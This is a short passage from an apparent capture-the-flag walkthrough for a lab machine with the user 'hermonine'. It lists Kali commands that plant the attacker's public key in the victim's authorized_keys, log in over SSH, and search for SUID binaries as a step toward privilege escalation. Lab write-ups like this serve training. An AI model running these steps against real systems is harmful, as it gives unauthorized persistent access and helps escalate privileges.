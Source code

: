 
**Kali**

```
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub 
```

<figure><img src="../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(Hermonie)**

```
echo "$YOURKEY" >> /home/hermonine/.ssh/authorized_keys
```

**Kali**

```
ssh hermonine@$VICTIM
```

**Victim(Hermonie)**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

